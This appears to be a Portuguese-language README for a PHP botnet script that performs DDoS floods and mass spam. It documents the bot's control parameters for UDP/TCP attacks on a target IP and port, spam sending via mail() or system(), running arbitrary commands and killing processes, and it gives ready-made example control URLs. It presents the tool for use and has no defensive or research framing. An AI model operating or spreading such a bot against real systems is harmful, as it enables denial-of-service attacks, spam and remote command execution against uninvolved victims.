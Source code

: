 # PHP Bot (DDoS/Spam)

Bot em PHP utilizado para enviar emails em massa e realizar ataques DDoS (Negação de Serviço).

###Functions...
 DDos, Spam (Perl e PHP), Run command, Kill Perl running.

###Functions details...
 - DDoS:
        command = ddos.
        flag = Attack method: udp, tcp.
        data = IP:PORT.

        phpBot.php?hash=admin&command=ddos&flag=udp&data=111.111.111.111:22

 - Spam:
 
        command = spam, phpspam (spam via mail() function).
        flag = 1 é padrão para spam normal. 
              Para phpspam, 1 = Usa função system() para rodar enviador, 
              2 = Utiliza todas as funções (Envia repetido).
        data = null (default).

        POST data:
          maillist=...&subject=...&from=...&message=...
         
          phpBot.php?hash=admin&command=spam&flag=1&data=null

 - Run file:
          command = run.
          flag = 1 (default).
          data = Command to run

          phpBot.php?hash=admin&command=run&flag=1&data=dir.exe

 - Kill dependencies:  
          command = kill.
          flag = 1 (default).
          data = null (default)

          phpBot.php?hash=admin&command=kill&flag=1&data=null

